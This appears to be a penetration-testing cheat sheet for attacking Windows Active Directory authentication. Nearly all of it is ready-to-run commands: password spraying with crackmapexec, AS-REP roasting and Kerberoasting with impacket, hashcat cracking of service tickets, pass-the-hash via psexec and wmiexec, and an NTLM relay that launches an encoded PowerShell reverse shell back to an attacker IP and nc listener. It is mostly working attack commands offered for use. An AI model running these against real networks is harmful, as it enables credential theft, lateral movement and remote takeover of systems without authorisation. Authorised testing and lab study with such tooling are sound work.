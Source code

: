 # Attacking Authentication

## Password spray


Password spray attack with crackmapexec.
Note that crackmapexec doesn't look at the policy for locking users

```
crackmapexec smb $RHOST -u ${USERS_FILE} -p '${PASSWORD}' -d ${DOMAIN} --continue-on-success
```
Available protocols are: `ssh,mssql,winrm,smb,ldap,rdp,ftp`.


for smb, consider following up with found credentials and `--shares`


## Impacket

### AS-REP roasting

```
impacket-GetNPUsers -dc-ip ${DC_IP} -request -outputfile asrep-result.txt ${DOMAIN}/${OWNED_USER}
```

### Kerberoasting

This is good for high-privilege service accounts.
check for SPN accounts:
```
impacket-GetUserSPNs -dc-ip ${DC_IP} ${DOMAIN}/${DOMAIN_USER}:${DOMAIN_USER_PASSWORD} 

```
Now, we can request the TGS for the found SPN:

```
impacket-GetUserSPNs -dc-ip ${DC_IP} ${DOMAIN}/${DOMAIN_USER}:${DOMAIN_USER_PW} -request-user ${SPN_ACCOUNT} -outputfile tgs.txt 
```
Note the `$SPN_ACCOUNT` is the account Name, not the ServicePrincipalName.


Now, you can crack the password in the tgs file:

```
hashcat -a 0 -m 13100 tgs.txt /usr/share/wordlists/rockyou.txt
```

### Pass Admin hash psexec

Note that both "Pass the Admin hash" and the relay attack can sometimes be used to traverse with _local admin accounts_,
as some domains are setup with all local Administrators having the same password.
That means their NTLM hash is the same, meaning both `impacket-psexec` and the `impacket-ntlmrelayx` should work.

Assuming you've found an NTLM admin hash, you might be able to get a reverse shell onto another machine with `impacket-psexec`:

```
impacket-psexec -hashes :${NTLM_HASH} Administrator@$RHOST
```
a similar command is `impacket-wmiexec`, which gets us a shell as Administrator, rather than the SYSTEM:

```
impacket-wmiexec -hashes :${NTLM_HASH} Administrator@${RHOST}
```
This requires the SMB port (usually 445) to be available, Windows File and Printer sharing to be enabled, as well as the ADMIN$ share to be available.


### Relay hash with impacket-ntlmrelayx

You can relay SMB requests between SRV1 and SRV2 by doing the following:

* Setup an nc listener on kali: `nc -nvlp 6666`.
* From kali: `sudo impacket-ntlmrelayx --no-http-server -smb2support -t ${SRV2} -c "powershell -enc ${ENCODED_REV_SHELL}"` (`ENCODED_REV_SHELL` points to `$ATTACKER_IP` and port `6666`)
* From SRV1 do `dir \\$ATTACKER_IP\thiswillgetdenied`.
The SMB request with the NTLMv2 Hash of the user on SRV1 will get relayed to SRV2.
Target system needs to have UAC remote restrictions disabled, and the user on SRV1 needs to have access to SRV2 for this to work.

